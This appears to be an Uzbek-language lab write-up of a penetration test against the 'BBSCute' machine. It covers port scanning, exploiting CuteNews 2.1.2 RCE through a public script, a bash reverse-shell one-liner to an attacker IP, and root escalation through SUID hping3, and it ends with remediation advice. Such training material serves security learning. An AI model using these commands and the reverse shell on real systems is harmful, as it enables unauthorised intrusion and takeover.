









Razvedka (Reconnaissance) 01
Masscan — tez port skanerlash
Klassik nmap dan oldin masscan bilan barcha 65535 portni bir zumda skanerlaymiz. Maqsad — vaqt tejash. Natijani ports fayliga yozib, keyinchalik nmap ga uzatamiz.
└─$ sudo masscan -p1-65535 192.168.228.128 --rate=1000 -e tun0 > ports

masscan — 65535 port, SYN stealth scan
→
Masscan + nmap kombinatsiyasi professional workflow — masscan tezlik, nmap chuqurlik beradi.
Nmap — servis va versiya aniqlash
Masscan topgan portlarni -sCV flaglari bilan nmap ga beramiz. Natija: 5 ta ochiq port — ikki HTTP, SSH va mail servislari.
└─$ ports=$(cat ports | awk -F " " '{print $4}' | cut -d'/' -f1 | sort -n | tr '\n' ',' | sed 's/,$//')
└─$ nmap -sCV -p$ports 192.168.228.128 -T4 -oN nmap.txt

nmap — portlar, servislar va versiyalar
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2
80/tcp open http Apache httpd 2.4.38 (Debian)
88/tcp open http nginx 1.14.2
110/tcp open pop3 Courier pop3d
995/tcp open ssl/pop3 Courier pop3d
Service Info: OS: Linux
ℹ
2 ta HTTP port — 80 (Apache) va 88 (nginx). Pop3 mail servisi ham bor, lekin asosiy vektor web. 80-portdan boshlaymiz.
Gobuster — web enumeration
Apache 80-portini gobuster bilan skanerlaymiz. php, txt, js, asp kengaytmalar bilan — PHP CMS bo'lishi mumkin.
└─$ gobuster dir -u http://192.168.228.128/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php,txt,js,asp

gobuster — yashirin sahifalar va direktoriyalar topildi
/search.php (Status: 200)
/index.php (Status: 200)
/docs (Status: 301)
/uploads (Status: 301) [→ /uploads/]
/core (Status: 301)
/example.php (Status: 200)
!
/uploads direktoriyasi ochiq — shell yuklasak, u yerdan execute qilish mumkin. Esda saqlash kerak.
Zaiflikni Aniqlash 02
CuteNews 2.1.2 — versiyani aniqlash
index.php brauzerda — CuteNews 2.1.2 news management system. Footer da versiya ochiqcha ko'rinib turibdi. Bu red teamning sevimli topilmasi — versiya = exploit qidirish.

CuteNews 2.1.2 — versiya footerda oshkor
Searchsploit — exploit qidirish
└─$ searchsploit cutenews 2.1.2

searchsploit — 4 ta exploit topildi, 48800.py tanladik
CuteNews 2.1.2 - 'avatar' RCE (Metasploit) | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution | php/webapps/48800.py
→
48800.py — manual Python exploit tanladik. Metasploit emas — OSCP qoidasi bo'yicha faqat 1 marta ishlatish mumkin, uni tejab qo'yamiz.
Dastlabki Kirish (Initial Access) 03
CuteNews RCE — 48800.py
Exploit avtomatik foydalanuvchi ro'yxatdan o'tkazadi, avatar upload orqali PHP webshell yuklaydi va interaktiv shell beradi. Mexanizm: register → avatar PHP shell upload → /uploads/ dan execute → RCE.
└─$ python3 48800.py
Enter the URL> http://192.168.228.128

48800.py — avtomatik ro'yxatdan o'tish va www-data shell olindi
[+] Registration successful: Gf7ki6ZfpN
Sending Payload...
Dropping to a SHELL
command > whoami
www-data
Shell oldik — lekin bu semi-interactive. To'liq bash reverse shell olamiz.
Reverse shell — to'liq interaktiv bash
command > /bin/bash -i >& /dev/tcp/192.168.45.169/5555 0>&1

Reverse shell — to'liq interaktiv bash olindi
⚑
Local flag
/var/www/local.txt → [REDACTED]
Imtiyoz Oshirish (Privilege Escalation) 04
LinPEAS — SUID enumeration
LinPEAS avtomatik tizimni o'rganadi. SUID bo'limida xavfli binarlar sariq/qizil rang bilan ajratiladi — hping3 darhol ko'zga tashlanadi.

LinPEAS — hping3 SUID highlighted
SUID — Files with Interesting Permissions
...
-rwsr-xr-x root /usr/bin/pkexec ---> CVE-2021-4034
-rwsr-sr-x root /usr/sbin/hping3
...
!
hping3 SUID — GTFOBins da bu root shell beradi. pkexec (CVE-2021-4034) ham bor lekin hping3 eng tez va ishonchli yo'l.
hping3 SUID → root shell
GTFOBins texnikasi — hping3 interaktiv rejimida /bin/sh -p chaqiramiz. SUID tufayli shell root huquqida ochiladi.
www-data@cute:/tmp$ /usr/sbin/hping3
hping3> /bin/sh -p
# whoami

hping3 SUID → /bin/sh -p → root ✓
hping3> /bin/sh -p
# whoami
root
Zaiflik Tahlili 06
BBSCute ikki klassik zaiflikni birlashtirgan — web RCE va SUID misconfiguration. Real pentest da bu kombinatsiya juda ko'p uchraydi.
| CuteNews 2.1.2 RCE |
Kritik |
Avatar upload filtrsiz — PHP webshell yuklash mumkin |
| hping3 SUID |
Yuqori |
/usr/sbin/hping3 ga keraksiz SUID bit — root shell |
| Versiya oshkor |
O'rta |
CuteNews versiyasi footer da ochiq — exploit topish trivial |
Tavsiyalar
CuteNews: CMS ni yangilash. Upload fayllarni PHP sifatida execute qilmaslik — MIME type va kengaytma whitelist joriy etish.
hping3: chmod u-s /usr/sbin/hping3 — SUID bitini olib tashlash. Muntazam SUID audit o'tkazish.
Versiya: CMS va server versiyalarini public sahifalarda ko'rsatmaslik.